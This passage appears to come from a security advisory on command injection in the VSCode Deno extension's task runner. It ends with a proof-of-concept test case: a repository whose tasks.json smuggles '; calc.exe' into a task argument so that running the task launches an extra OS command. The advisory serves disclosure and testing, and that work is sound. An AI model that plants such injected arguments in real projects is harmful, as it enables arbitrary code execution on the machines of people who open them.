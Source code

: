    ```typescript
               workspaceFolder,
               denoCommand,
               definition,
               `test "${name}"`,
               args,
               ["$deno-test"],
           );
           // ...
       };
   }
   ```
3. **File: `client/src/tasks_sidebar.ts`**
   - Tasks in `tasks_sidebar.ts` are loaded from `deno.json` configurations via LSP request `deno/taskDefinitions`. These tasks are then executed using `buildDenoConfigTask`, which eventually also uses `buildDenoTask`.
   - Malicious tasks in `deno.json` could also be crafted and executed.

Security test case:
1. Create a malicious repository with the following structure:
   ```
   malicious-repo/
   ├── .vscode/
   │   └── tasks.json
   └── mod.ts
   ```
   - `mod.ts`: (can be empty or any valid Deno file)
     ```typescript
     console.log("Hello from mod.ts");
     ```
   - `.vscode/tasks.json`:
     ```json
     {
         "version": "2.0.0",
         "tasks": [
             {
                 "type": "deno",
                 "command": "run",
                 "args": [
                     "mod.ts",
                     "; calc.exe"
                 ],
                 "problemMatcher": [
                     "$deno"
                 ],
                 "label": "deno: run malicious"
             }
         ]
     }
     ```
2. Open the `malicious-repo` in VSCode with the Deno extension enabled.
3. Open the Command Palette (`Ctrl+Shift+P`) and run "Tasks: Run Task".
4. Select the "deno: run malicious" task.
5. Observe that `calc.exe` (or another OS command like `open /Applications/Calculator.app` on macOS or `xcalc` on Linux) is executed, demonstrating command injection.
